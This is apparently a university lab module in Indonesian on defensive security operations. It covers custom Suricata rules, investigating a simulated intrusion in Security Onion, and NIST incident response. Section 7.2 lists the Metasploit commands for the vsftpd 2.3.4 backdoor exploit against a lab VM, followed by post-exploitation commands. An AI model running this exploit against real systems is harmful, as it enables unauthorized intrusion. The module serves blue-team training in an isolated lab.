



## **MODUL PRAKTIKUM MINGGU 6-8: OPERASI SIBER DEFENSIF (BLUE TEAM)**

**Mata Kuliah:** Keamanan Siber Terapan
**Kode Modul:** KS-LAB-03
**Durasi:** 3 Sesi x 4 Jam Praktikum

-----

### **A. TUJUAN PEMBELAJARAN**

Setelah menyelesaikan modul praktikum tiga minggu ini, mahasiswa diharapkan mampu:

1.  **Memahami** arsitektur dan komponen platform pemantauan keamanan terintegrasi (Security Onion).
2.  **Mengkonfigurasi** dan **memvalidasi** aturan deteksi intrusi kustom pada Network IDS/IPS (Snort/Suricata).
3.  **Menganalisis** data log dan peringatan (*alerts*) dari berbagai sumber (NIDS, HIDS) untuk mendeteksi aktivitas serangan secara *real-time*.
4.  **Menerapkan** kerangka kerja Respons Insiden (*Incident Response*) standar industri (NIST) dalam sebuah skenario serangan simulasi.
5.  **Menyusun** sebuah Laporan Insiden dan Mitigasi yang merangkum analisis teknis, dampak, dan rekomendasi perbaikan.

-----

### **B. PRASYARAT DAN LINGKUNGAN LABORATORIUM**

Modul ini **melanjutkan** penggunaan lingkungan lab yang telah dibangun dan digunakan pada modul-modul sebelumnya.

**1. Mesin Virtual yang Dibutuhkan:**

  * **Kali Linux VM** (Penyerang) | IP: `192.168.100.10`
  * **Security Onion VM** (Platform Defensif) | IP: `192.168.100.100`
  * **Metasploitable 2 VM** (Target) | IP Dinamis (Verifikasi dengan `ifconfig`, biasanya `192.168.100.101`)

**2. Status Mesin Virtual:**

  * Pastikan ketiga mesin virtual di atas dalam keadaan **berjalan (running)** dan terhubung ke jaringan internal `cyberlab-net`.
  * Verifikasi kembali konektivitas antar mesin menggunakan perintah `ping`.

**3. Tools yang Digunakan:**

  * **Security Onion**: Platform utama kita, yang di dalamnya sudah terintegrasi:
      * **Suricata/Snort**: Sebagai Network Intrusion Detection System (NIDS).
      * **Wazuh**: Sebagai Host-based Intrusion Detection System (HIDS) dan Security Information Management (SIM).
      * **Elastic Stack (ELK)**: Elasticsearch, Logstash, Kibana sebagai backend untuk manajemen log dan visualisasi.
  * **Kali Linux Tools**: Metasploit Framework, Nmap (untuk memicu serangan).

-----

### **C. PERINGATAN KEAMANAN DAN ETIKA**

**\!\!\! PERINGATAN \!\!\!**

  * **ISOLASI MUTLAK**: Semua aktivitas dalam modul ini **WAJIB** dilakukan **HANYA** di dalam lingkungan laboratorium virtual `cyberlab-net` yang terisolasi.
  * **TUJUAN PENDIDIKAN**: Modul ini bertujuan untuk melatih Anda sebagai **pembela (Blue Team)**. Memahami taktik penyerang adalah syarat mutlak untuk membangun pertahanan yang efektif.
  * **LARANGAN**: Dilarang keras menerapkan teknik atau tool apa pun dari modul ini pada jaringan atau sistem di luar lab yang telah ditentukan.

-----

-----

### **D. MODUL 6 (MINGGU KE-6): KONFIGURASI DAN VALIDASI IDS/IPS**

**Tujuan:** Memahami cara kerja platform defensif, mengkonfigurasi aturan deteksi kustom, dan memvalidasi bahwa aturan tersebut berfungsi seperti yang diharapkan.

#### **6.1. Pengenalan Arsitektur Security Onion**

Sebelum kita mengkonfigurasi, kita harus paham apa yang kita konfigurasikan. Security Onion adalah "pisau Swiss Army" untuk para pembela. Ia mengumpulkan data dari dua perspektif utama:

  * **Perspektif Jaringan**: Melalui sensor **Suricata** atau **Snort**. Sensor ini "mendengarkan" semua lalu lintas di jaringan `cyberlab-net` (karena kita mengaturnya dalam *Promiscuous Mode*) dan membandingkannya dengan ribuan aturan. Jika ada lalu lintas yang cocok dengan aturan "berbahaya", ia akan menghasilkan **alert**.
  * **Perspektif Host**: Melalui agen **Wazuh**. Anda dapat menginstal agen ini di setiap server atau *endpoint* yang ingin Anda pantau. Agen ini memonitor aktivitas internal host, seperti perubahan file (FIM - File Integrity Monitoring), proses yang berjalan, login yang gagal, dan log sistem.

Semua data ini (alerts, logs, dll.) dikirim ke **Elastic Stack** untuk disimpan, diindeks, dan divisualisasikan melalui dasbor **Kibana**.

##### **Diagram Alur Data Security Onion**



#### **6.2. Kegiatan 1: Membuat Aturan Deteksi Intrusi (IDS) Kustom**

Aturan bawaan (seperti Emerging Threats/ET Open) sudah sangat bagus, tetapi seringkali kita perlu membuat aturan sendiri untuk mendeteksi ancaman yang sangat spesifik terhadap lingkungan kita. Mari kita buat aturan sederhana untuk mendeteksi `ping` yang berisi data teks spesifik.

1.  **Akses Terminal Security Onion**:

      * Login ke konsol VM Security Onion di VirtualBox dengan akun yang Anda buat saat instalasi.
      * Alternatif: Dari terminal Kali, jalankan `ssh so-admin@192.168.100.100` (ganti `so-admin` dengan username Anda).

2.  **Navigasi ke Direktori Aturan Lokal**:
    Aturan kustom disimpan di direktori `/opt/so/rules/local/`.

    ```bash
    cd /opt/so/rules/local/
    ```

3.  **Buat File Aturan**:
    Kita akan membuat file bernama `local.rules`. Gunakan editor teks `nano` atau `vim`.

    ```bash
    sudo nano local.rules
    ```

4.  **Tulis Aturan Snort/Suricata**:
    Salin dan tempel aturan berikut ke dalam file `local.rules`:

    ```text
    alert icmp any any -> any any (msg:"KS-LAB - ICMP PING with Custom Payload Detected"; content:"pwned"; sid:1000001; rev:1;)
    ```

      * **Simpan file** (di `nano`, tekan `Ctrl+X`, lalu `Y`, lalu `Enter`).

5.  **Analisis Sintaks Aturan**:

      * `alert icmp`: Tindakan (buat alert) untuk protokol ICMP.
      * `any any -> any any`: Dari IP sumber dan port mana pun, ke IP tujuan dan port mana pun.
      * `(msg:"...";)`: Pesan yang akan ditampilkan di dasbor alert. **Selalu gunakan prefix unik** (seperti `KS-LAB`) agar mudah dicari.
      * `content:"pwned";`: Ini adalah inti deteksi. Aturan ini akan mencari string teks "pwned" di dalam *payload* paket ICMP.
      * `sid:1000001;`: Signature ID. Aturan kustom harus menggunakan SID di atas 1,000,000. **SID harus unik untuk setiap aturan.**
      * `rev:1;`: Nomor revisi aturan.

6.  **Terapkan Aturan Baru**:
    Jalankan perintah berikut untuk memaksa Security Onion memuat ulang semua aturan, termasuk aturan kustom kita.

    ```bash
    sudo so-rule-update
    ```

    Tunggu hingga proses selesai. Ini akan memulai ulang sensor Suricata.

#### **6.3. Kegiatan 2: Memvalidasi Aturan Kustom**

Sekarang kita akan bertindak sebagai penyerang untuk memicu aturan yang baru saja kita buat.

1.  **Buka Terminal di Kali Linux**:

2.  **Buat `ping` dengan Payload**: Kita akan menggunakan perintah `ping` dengan opsi `-p` untuk menyisipkan pola heksadesimal. Kita perlu mengkonversi string "pwned" ke heksadesimal.

      * "p" = `70`
      * "w" = `77`
      * "n" = `6e`
      * "e" = `65`
      * "d" = `64`
      * String hex: `70776e6564`

3.  **Kirim Paket Pemicu**: Jalankan perintah `ping` ke alamat mana pun di jaringan internal (misalnya, ke Metasploitable 2), dengan *payload* kustom.

    ```bash
    sudo ping -p 70776e6564 -c 1 192.168.100.101
    ```

      * `sudo`: Diperlukan untuk menggunakan opsi `-p`.
      * `-c 1`: Hanya mengirim satu paket.

4.  **Verifikasi Peringatan (Alert)**:

      * Buka dasbor Security Onion di browser Kali (`https://192.168.100.100`).
      * Navigasikan ke halaman **Alerts**.
      * Anda mungkin perlu menunggu satu atau dua menit hingga alert muncul.
      * Di kotak pencarian, ketik pesan dari aturan kita: `KS-LAB`.
      * **HASIL**: Anda akan melihat sebuah alert baru muncul dengan pesan **"KS-LAB - ICMP PING with Custom Payload Detected"**.

<!-- end list -->

  * **Kesimpulan Kegiatan**: Anda telah berhasil membuat, menerapkan, dan memvalidasi sebuah aturan IDS kustom. Ini adalah keterampilan fundamental bagi seorang analis pertahanan.

-----

-----

### **F. MODUL 7 (MINGGU KE-7): ANALISIS LOG DAN PEMANTAUAN INSIDEN**

**Tujuan:** Mensimulasikan serangan nyata dan menggunakan berbagai tool di Security Onion untuk mendeteksi, menganalisis, dan memahami keseluruhan rantai serangan.

#### **7.1. Skenario Serangan: Kompromi Server FTP**

Kita akan mengulangi serangan yang berhasil dari Modul KS-LAB-02, tetapi kali ini kita akan memakai "topi biru" (*blue team hat*) dan mengamatinya dari perspektif pembela.

**Serangan**: Mengeksploitasi *backdoor* `vsftpd 2.3.4` pada VM **Metasploitable 2** (`192.168.100.101`) dari **Kali Linux** (`192.168.100.10`).

#### **7.2. Kegiatan 3: Pelaksanaan Serangan (Peran Red Team)**

Ikuti langkah-langkah ini di terminal **Kali Linux**.

1.  Mulai Metasploit: `msfconsole`
2.  Cari dan gunakan eksploit:
    ```bash
    msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
    ```
3.  Atur target:
    ```bash
    msf6 exploit(...) > set RHOSTS 192.168.100.101
    ```
4.  Jalankan serangan:
    ```bash
    msf6 exploit(...) > exploit
    ```
5.  **Setelah mendapatkan shell**, jalankan beberapa perintah pasca-eksploitasi untuk menghasilkan lebih banyak data bagi pembela:
    ```bash
    # Verifikasi akses
    whoami
    id

    # Buat file sebagai bukti kompromi
    echo "Blue team was here" > /tmp/compromised.txt

    # Keluar dari shell
    exit
    ```

#### **7.3. Kegiatan 4: Analisis dan Investigasi (Peran Blue Team)**

Sekarang, buka dasbor **Security Onion**. Kita akan memulai investigasi kita.

1.  **Analisis Peringatan Awal (NIDS)**:

      * Buka halaman **Alerts**.
      * Atur rentang waktu ke **Last 15 minutes** (atau rentang yang sesuai).
      * Anda akan melihat beberapa alert baru. Filter berdasarkan IP tujuan `192.168.100.101`.
      * Anda akan menemukan alert yang sangat mencurigakan, seperti:
          * `ET EXPLOIT VSFTPD 2.3.4 Backdoor Login`
          * `ET POLICY Executable Server Command in FTP Command Channel`
      * Ini adalah **Indikator Awal Kompromi (Initial Indicator of Compromise)**.

2.  **Drill Down: Dari Alert ke PCAP**:

      * Klik pada alert `ET EXPLOIT VSFTPD`. Ini akan membuka detail alert.
      * Di dalam detail, cari ikon kecil berbentuk sirip hiu (🦈) atau tulisan `pcap`. Klik ikon ini.
      * **PENTING**: Security Onion akan mengunduh file `.pcap` yang berisi rekaman penuh dari sesi jaringan yang memicu alert tersebut.
      * Buka file `.pcap` ini dengan **Wireshark** (sudah terinstal di Kali).
      * Di Wireshark, klik kanan pada salah satu paket dan pilih **Follow \> TCP Stream**.
      * Anda akan dapat melihat dengan jelas komunikasi antara penyerang dan server FTP, termasuk *payload* berbahaya yang dikirim. Ini adalah bukti forensik yang tak terbantahkan.

3.  **Memperluas Investigasi: Menggunakan Dasbor Hunt**:

      * Di Security Onion, navigasikan ke dasbor **Hunt**. Dasbor ini memungkinkan Anda untuk membuat kueri terhadap **semua** jenis log (bukan hanya alerts).
      * Buat kueri untuk melihat semua aktivitas antara penyerang dan korban:
        `source.ip:"192.168.100.10" and destination.ip:"192.168.100.101"`
      * Anda akan melihat:
          * Lalu lintas di port `21` (FTP) yang memicu alert.
          * **Koneksi baru** di port `6200`. Ini adalah *callback shell* dari eksploit. Metasploit membuka port ini untuk sesi C2-nya. Ini adalah temuan krusial yang tidak muncul sebagai alert default.

4.  **Mencari Bukti di Host (HIDS/Wazuh)**:

      * **Catatan**: Karena kita tidak menginstal agen Wazuh di Metasploitable 2, kita tidak akan melihat log dari host tersebut. Namun, dalam skenario nyata, ini adalah langkah selanjutnya.
      * Jika agen terinstal, kita akan pergi ke dasbor **Wazuh** di Security Onion.
      * Kita akan memfilter berdasarkan nama host target.
      * Kita akan mencari:
          * **Peringatan File Integrity Monitoring (FIM)**: Akan ada alert yang menunjukkan bahwa file baru `/tmp/compromised.txt` telah dibuat.
          * **Peringatan Eksekusi Perintah**: Akan ada log yang mencatat eksekusi perintah `whoami` dan `id` oleh proses yang mencurigakan.
      * Ini menghubungkan aktivitas jaringan dengan aktivitas di dalam sistem operasi itu sendiri, memberikan gambaran 360 derajat tentang intrusi.

##### **Diagram Alur Kerja Investigasi**



-----

-----

### **G. MODUL 8 (MINGGU KE-8): PROSEDUR RESPONS INSIDEN DAN PELAPORAN**

**Tujuan:** Menerapkan kerangka kerja respons insiden formal untuk mengelola serangan yang telah kita analisis dan menyusun laporan mitigasi.

#### **8.1. Kerangka Kerja Respons Insiden NIST SP 800-61**

Praktik respons insiden profesional mengikuti siklus hidup yang terstruktur. Kerangka kerja dari NIST adalah standar emasnya.



  * **Preparation (Persiapan)**: Semua yang kita lakukan sebelum insiden terjadi (membangun lab, mengkonfigurasi SO, membuat aturan).
  * **Detection & Analysis (Deteksi & Analisis)**: Apa yang baru saja kita lakukan di Modul 7.
  * **Containment, Eradication & Recovery (Penahanan, Pemberantasan & Pemulihan)**: Tindakan aktif untuk menghentikan serangan dan memperbaiki sistem.
  * **Post-Incident Activity (Aktivitas Pasca-Insiden)**: Belajar dari insiden untuk menjadi lebih kuat.

#### **8.2. Kegiatan 5: Latihan *Table-Top* Respons Insiden**

Berdasarkan serangan `vsftpd` yang telah kita analisis, mari kita jalani fase aktif dari IR.

  * **Fase 3a: Penahanan (*Containment*)**

      * **Tujuan**: Menghentikan pendarahan. Mencegah penyerang menyebabkan kerusakan lebih lanjut atau bergerak ke sistem lain.
      * **Tindakan Jangka Pendek (Segera)**:
        1.  **Blokir IP Penyerang**: Tindakan paling cepat dan paling efektif adalah memblokir alamat IP penyerang (`192.168.100.10`) di tingkat firewall.
              * *Konsep Perintah (Linux Firewall - iptables)*: `sudo iptables -A INPUT -s 192.168.100.10 -j DROP`
        2.  **Isolasi Host**: Jika ada kekhawatiran penyerang sudah bergerak ke host lain, tindakan yang lebih drastis adalah mengisolasi host yang terkompromi (`192.168.100.101`) dari jaringan.
      * **Diskusi**: Apa pro dan kontra dari hanya memblokir IP vs. mengisolasi seluruh host?

  * **Fase 3b: Pemberantasan (*Eradication*)**

      * **Tujuan**: Menghapus semua jejak penyerang dari sistem.
      * **Tindakan**:
        1.  **Identifikasi Akar Masalah**: Kita tahu dari analisis kita bahwa akar masalahnya adalah layanan `vsftpd 2.3.4` yang rentan.
        2.  **Hapus Ancaman**: Menghapus file `/tmp/compromised.txt` saja **TIDAK CUKUP**. Kita harus menonaktifkan dan menghapus perangkat lunak `vsftpd` yang rentan.
        3.  **Praktik Terbaik**: Dalam lingkungan produksi nyata, praktik terbaik adalah **"Nuke and Pave"**—jangan mencoba membersihkan server yang terinfeksi. Hapus total dan bangun kembali dari citra (*image*) atau *backup* yang diketahui bersih. Mengapa? Karena kita tidak pernah bisa 100% yakin bahwa kita telah menemukan semua *backdoor* atau *rootkit* yang mungkin telah ditanam oleh penyerang.

  * **Fase 3c: Pemulihan (*Recovery*)**

      * **Tujuan**: Mengembalikan sistem ke operasi normal dengan aman.
      * **Tindakan**:
        1.  **Pasang Versi yang Aman**: Jika layanan FTP masih diperlukan, instal versi `vsftpd` yang modern dan telah di-*patch*.
        2.  **Verifikasi Keamanan**: Sebelum menghubungkan kembali server ke jaringan, lakukan pemindaian kerentanan (menggunakan OpenVAS) sekali lagi untuk memastikan tidak ada kelemahan yang jelas.
        3.  **Pemantauan Intensif**: Setelah server kembali online, monitor log dan lalu lintasnya dengan sangat ketat selama beberapa hari untuk mencari tanda-tanda aktivitas anomali.

  * **Fase 4: Aktivitas Pasca-Insiden (Pelajaran yang Dipetik)**

      * **Tujuan**: Mencegah insiden serupa terjadi lagi.
      * **Analisis**:
          * **Mengapa ini terjadi?** Sebuah layanan dengan kerentanan kritis yang diketahui publik dibiarkan berjalan di jaringan.
          * **Apa yang bisa diperbaiki?**
            1.  **Implementasikan Program Manajemen Kerentanan (*Vulnerability Management*)**: Lakukan pemindaian kerentanan secara rutin (misalnya, mingguan) dan prioritaskan perbaikan kerentanan kritis.
            2.  **Perkuat Konfigurasi Firewall**: Seharusnya tidak ada layanan yang terekspos ke jaringan kecuali benar-benar diperlukan (*principle of least service*).
            3.  **Tingkatkan Aturan Deteksi**: Buat aturan SIEM atau IDS yang lebih spesifik untuk mendeteksi tanda-tanda awal eksploitasi pada layanan-layanan kritis.

-----

-----

### **H. TUGAS AKHIR: LAPORAN INSIDEN DAN MITIGASI**

**Tujuan:** Mendokumentasikan seluruh proses investigasi dan respons insiden ke dalam sebuah laporan formal.

**Format Laporan:**

-----

**LAPORAN RESPON INSIDEN: Kompromi Server FTP (IR-20251021-001)**

**Tanggal Laporan:** [Tanggal Hari Ini]
**Disusun oleh:** [Nama Anda / Kelompok Anda]

-----

**1. RINGKASAN EKSEKUTIF**
*(Satu paragraf singkat untuk manajemen)*
Pada [Tanggal], pukul [Waktu], sebuah intrusi terdeteksi pada server Metasploitable 2 (`192.168.100.101`). Penyerang dari alamat IP `192.168.100.10` berhasil mendapatkan akses administratif penuh (root) dengan mengeksploitasi kerentanan *backdoor* yang diketahui publik pada layanan VSFTPD versi 2.3.4. Tim Respons Insiden berhasil menahan, memberantas, dan memulihkan layanan. Akar masalah adalah perangkat lunak yang usang dan tidak di-*patch*. Rekomendasi utama adalah implementasi program manajemen kerentanan yang proaktif.

**2. TIMELINE INSIDEN (Kronologi)**
*(Buat tabel atau daftar berpoin dengan cap waktu)*

  * **[Waktu Serangan]**: Peringatan NIDS `ET EXPLOIT VSFTPD` terdeteksi.
  * **[Waktu Analisis]**: Analisis PCAP mengkonfirmasi eksploit. Analisis Hunt mengidentifikasi C2 di port 6200.
  * **[Waktu Penahanan]**: IP penyerang diblokir di firewall.
  * **[Waktu Pemberantasan]**: Server diisolasi dan dijadwalkan untuk dibangun ulang.
  * **[Waktu Pemulihan]**: Server baru dengan perangkat lunak yang telah di-*patch* di-deploy.
  * **[Waktu Insiden Ditutup]**: Pemantauan intensif selesai, insiden dinyatakan ditutup.

**3. ANALISIS TEKNIS KOMPROMI**

  * **Vektor Awal**: Eksploitasi kerentanan VSFTPD v2.3.4 Backdoor (CVE-2011-2523).
  * **Rantai Serangan**: Jelaskan alur serangan: Penyerang mengirim payload ke port 21, yang memicu *backdoor* untuk membuka *shell* di port 6200.
  * **Tindakan Pasca-Eksploitasi**: Penyerang memverifikasi akses root dan membuat file di direktori `/tmp`.
  * **Indikator Kompromi (IoCs)**:
      * **IP Penyerang**: `192.168.100.10`
      * **Port C2**: `6200/TCP`
      * **Signature NIDS**: `ET EXPLOIT VSFTPD 2.3.4 Backdoor Login`
      * **Artefak Host**: File `/tmp/compromised.txt`

**4. DAMPAK BISNIS/OPERASIONAL**

  * **Kerahasiaan**: Penyerang memiliki akses penuh untuk membaca semua data di server.
  * **Integritas**: Penyerang menunjukkan kemampuan untuk mengubah data (membuat file).
  * **Ketersediaan**: Server harus dimatikan untuk proses pemberantasan, menyebabkan *downtime* layanan.

**5. LANGKAH-LANGKAH PENAHANAN, PEMBERANTASAN, DAN PEMULIHAN**

  * Jelaskan tindakan yang diambil pada Fase 3 *Table-Top Exercise* secara rinci.

**6. REKOMENDASI MITIGASI (LESSONS LEARNED)**
*(Ini adalah bagian terpenting untuk perbaikan di masa depan)*

  * **Prioritas Tinggi**: Implementasikan proses pemindaian kerentanan bulanan dan patching mingguan untuk sistem kritis.
  * **Prioritas Sedang**: Terapkan kebijakan firewall yang lebih ketat (*default deny*) dan hanya izinkan port yang benar-benar diperlukan.
  * **Prioritas Rendah**: Kembangkan playbook SOAR untuk mengotomatiskan langkah-langkah awal respons insiden untuk kerentanan kritis.

-----

### **I. SUMBER PEMBELAJARAN**

  * **Dokumentasi Security Onion**: [https://docs.securityonion.net/en/2.4/](https://docs.securityonion.net/en/2.4/)
  * **Dokumentasi Wazuh**: [https://documentation.wazuh.com/current/index.html](https://documentation.wazuh.com/current/index.html)
  * **Aturan Suricata (Emerging Threats)**: [https://rules.emergingthreats.net/](https://rules.emergingthreats.net/)
  * **Kerangka Kerja NIST IR (SP 800-61)**: [https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
  * **The DFIR Report**: Analisis insiden dunia nyata yang sangat mendetail. [https://thedfirreport.com/](https://thedfirreport.com/)
